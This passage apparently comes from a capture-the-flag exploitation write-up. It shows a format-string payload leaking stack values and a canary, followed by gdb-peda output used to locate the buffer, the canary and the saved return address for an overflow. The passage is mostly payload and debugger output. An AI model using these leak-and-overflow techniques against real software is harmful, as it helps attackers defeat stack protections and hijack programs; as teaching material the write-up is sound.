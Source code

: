 ```
%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.
60216a.7ffff7dd3790.6c6c252e786c6c25.60216a.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.7ffff7000a2e.0.0.0.0.2f2f2f2f2f2f2f2f.2f2f2f2f2f2f2f2f.0.0.0.0.0.0.0.0.0.0.ff00000000000000.ff0000000000.1.4e3d5e634f5fb900.
```

So we can see here that the canary is 0x4e3d5e634f5fb900 (this time we only read enough data to get the canary). Now let's go to the second Breakpoint so we can see the offsets between the start of our buffer overflow, and the stack canary and the return address.

```
Breakpoint 1, 0x0000000000400700 in revelation ()
gdb-peda$ c
Continuing.
escape
```

And then breakpoint 2

```
Breakpoint 2, 0x0000000000400749 in main ()
gdb-peda$ find escape
Searching for 'escape' in: None ranges
Found 5 results, display max 5 items:
 [heap] : 0x602010 ("escape\nlx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx."...)
[stack] : 0x7fffffffde10 --> 0x657061637365 ('escape')
[stack] : 0x7fffffffe286 ("escape/def_ovr/d0_64/d0_64")
[stack] : 0x7fffffffec36 ("escape/def_ovr/d0_64")
[stack] : 0x7fffffffefdd ("escape/def_ovr/d0_64/d0_64")
gdb-peda$ x/x $rbp-0x20
0x7fffffffde10:	0x65
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffde40:
 rip = 0x400749 in main; saved rip = 0x7ffff7a2e830
 called by frame at 0x7fffffffdf00
 Arglist at 0x7fffffffde30, args: 
 Locals at 0x7fffffffde30, Previous frame's sp is 0x7fffffffde40
 Saved registers:
  rbp at 0x7fffffffde30, rip at 0x7fffffffde38
gdb-peda$ find 0x4e3d5e634f5fb900
Searching for '0x4e3d5e634f5fb900' in: None ranges
Found 2 results, display max 2 items:
 mapped : 0x7ffff7fd3728 --> 0x4e3d5e634f5fb900 
[stack] : 0x7fffffffde28 --> 0x4e3d5e634f5fb900 
```
